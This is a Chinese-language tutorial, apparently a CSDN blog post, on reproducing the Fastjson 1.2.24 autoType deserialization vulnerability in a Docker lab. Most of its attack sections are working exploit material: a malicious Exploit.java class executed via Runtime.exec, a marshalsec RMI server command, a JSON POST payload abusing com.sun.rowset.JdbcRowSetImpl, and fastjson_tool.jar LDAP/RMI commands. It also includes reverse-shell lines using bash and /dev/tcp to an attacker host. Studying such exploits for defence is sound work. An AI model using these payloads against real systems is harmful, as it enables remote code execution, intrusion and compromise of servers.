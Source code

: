 **目录**

[Fastjson](#t0 "Fastjson")

[autoType](#t1 "autoType")

[fastjson1.2.24反序列化漏洞复现一](#t2 "fastjson1.2.24反序列化漏洞复现一")

[编译恶意类](#t3 "编译恶意类")

[起HTTP服务](#t4 "起HTTP服务")

[起RMI服务](#t5 "起RMI服务")

[数据包攻击](#t6 "数据包攻击")

[脚本攻击](#t7 "脚本攻击")

[反弹shell](#t8 "反弹shell")

[fastjson1.2.24反序列化漏洞复现二](#t9 "fastjson1.2.24反序列化漏洞复现二")

* * *

Fastjson
========

[Fastjson](https://so.csdn.net/so/search?q=Fastjson&spm=1001.2101.3001.7020)是一个阿里巴巴开源的一款使用Java语言编写的高性能功能完善的JSON库，通常被用于将Java Bean和JSON 字符串之间进行转换。它采用一种“假定有序快速匹配”的算法，把JSON Parse的性能提升到极致，是目前Java语言中最快的JSON库。Fastjson接口简单易用，已经被广泛使用在缓存序列化、协议交互、Web输出、Android客户端等多种应用场景。但是，从诞生之初，fastjson就多次被爆出存在反序列化漏洞。并且，每次都和autoType有关！那么，什么是autoType呢？

autoType
--------

fastjson的主要功能就是将Java Bean[序列化](https://so.csdn.net/so/search?q=%E5%BA%8F%E5%88%97%E5%8C%96&spm=1001.2101.3001.7020)成JSON字符串，这样得到字符串之后就可以通过数据库等方式进行持久化了。

但是，fastjson在序列化以及[反序列化](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1001.2101.3001.7020)的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。

其实，对于JSON框架来说，想要把一个Java对象转换成[字符串](https://so.csdn.net/so/search?q=%E5%AD%97%E7%AC%A6%E4%B8%B2&spm=1001.2101.3001.7020)，可以有两种选择：

*   1：基于属性
*   2：基于setter/getter

而我们所常用的JSON序列化框架中，FastJson和jackson在把对象序列化成json字符串的时候，是通过遍历出该类中的所有getter方法进行的。Gson并不是这么做的，他是通过反射遍历该类中的所有属性，并把其值序列化成json。

关于autoType详细介绍，有一篇文章写得非常好：[fastjson到底做错了什么？为什么会被频繁爆出漏洞？](https://zhuanlan.zhihu.com/p/157211675?from_voters_page=true "fastjson到底做错了什么？为什么会被频繁爆出漏洞？")

fastjson1.2.24反序列化漏洞复现一
-----------------------

使用docker搭建靶机环境，访问目标，如下

![](https://img-blog.csdnimg.cn/20201209221146692.png)

我们向这个地址POST一个JSON对象，即可更新服务器端的信息

![](https://img-blog.csdnimg.cn/20201209221319599.png)

### 编译恶意类

首先编译如下Exploit.java代码为class

```
import java.io.BufferedReader;      
import java.io.InputStream;      
import java.io.InputStreamReader;       
public class Exploit{      
    public Exploit() throws Exception {      
        Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "touch /tmp/success"});      
        InputStream is = p.getInputStream();      
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));       1
        String line;      1
        while((line = reader.readLine()) != null) {      1
            System.out.println(line);      1
        }       1
        p.waitFor();      1
        is.close();      1
        reader.close();      1
        p.destroy();      2
    }       2
    public static void main(String[] args) throws Exception {      2
    }      2
}
```


![](https://img-blog.csdnimg.cn/20201209223946874.png)

### 起HTTP服务

然后用python起一个http服务

![](https://img-blog.csdnimg.cn/20201209224006232.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 起RMI服务

最后，我们使用marshalsec-0.0.3-SNAPSHOT-all.jar起一个RMI服务器，监听9999端口，并制定加载远程类 Exploit.class

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xx.xx.xx.xx:11111/#Exploit" 9999
```


![](https://img-blog.csdnimg.cn/20201209224358839.png)

### 数据包攻击

提交如下payload

```
POST / HTTP/1.1      
Host: xx.xx.xx.xx:8090      
Accept-Encoding: gzip, deflate      
Accept: */*      
Accept-Language: en      
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)      
Connection: close      
Content-Type: application/json      
Content-Length: 161       1
{      1
    "b":{      1
        "@type":"com.sun.rowset.JdbcRowSetImpl",      1
        "dataSourceName":"rmi://VPS ip地址:9999/Exploit",      1
        "autoCommit":true      1
    }      1
}
```


![](https://img-blog.csdnimg.cn/20201209224920378.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

可以看到我们这边监听也收到了请求

![](https://img-blog.csdnimg.cn/20201209225038782.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

上靶标tmp目录查看，可以看到生成了success文件

![](https://img-blog.csdnimg.cn/20201209225143217.png)

### 脚本攻击

也可以直接使用脚本攻击

![](https://img-blog.csdnimg.cn/20201209225748968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 反弹shell

如果是直接反弹shell的话，Exploit.java就得修改为反弹shell的命令了

```
import java.io.BufferedReader;      
import java.io.InputStream;      
import java.io.InputStreamReader;       
public class Exploit{      
    public Exploit() throws Exception {      
        Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "bash -i >& /dev/tcp/xx.xx.xx.xx/53 0>&1"});      
        InputStream is = p.getInputStream();      
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));       1
        String line;      1
        while((line = reader.readLine()) != null) {      1
            System.out.println(line);      1
        }       1
        p.waitFor();      1
        is.close();      1
        reader.close();      1
        p.destroy();      2
    }       2
    public static void main(String[] args) throws Exception {      2
    }      2
}
```


![](https://img-blog.csdnimg.cn/20201209230210455.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

fastjson1.2.24反序列化漏洞复现二
-----------------------

这次我们使用fastjson\_tool.jar工具来进行攻击 。该工具整合了RMI / LADP + 命令执行。

```
LDAP：java -cp fastjson_tool.jar fastjson.HLDAPServer VPS公网ip地址 监听的端口 "命令"      
RMI： java -cp fastjson_tool.jar fastjson.HRMIServer  VPS公网ip地址 监听的端口 "命令"
```


但是笔者在测试RMI的时候，不能稳定复现，故使用LDAP复现。

```
java -cp fastjson_tool.jar fastjson.HLDAPServer VPS公网ip地址 9999 "touch /tmp/success"
```


直接使用脚本进行攻击

![](https://img-blog.csdnimg.cn/20201209232732920.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**反弹shell**

```
java -cp fastjson_tool.jar fastjson.HLDAPServer VPS的公网地址 9999 "bash=/bin/bash -i >& /dev/tcp/xx.xx.xx.xx/53 0>&1"
```


![](https://img-blog.csdnimg.cn/20201209233215977.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

参考文章：[fastjson到底做错了什么？为什么会被频繁爆出漏洞？](https://zhuanlan.zhihu.com/p/157211675?from_voters_page=true "fastjson到底做错了什么？为什么会被频繁爆出漏洞？")

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
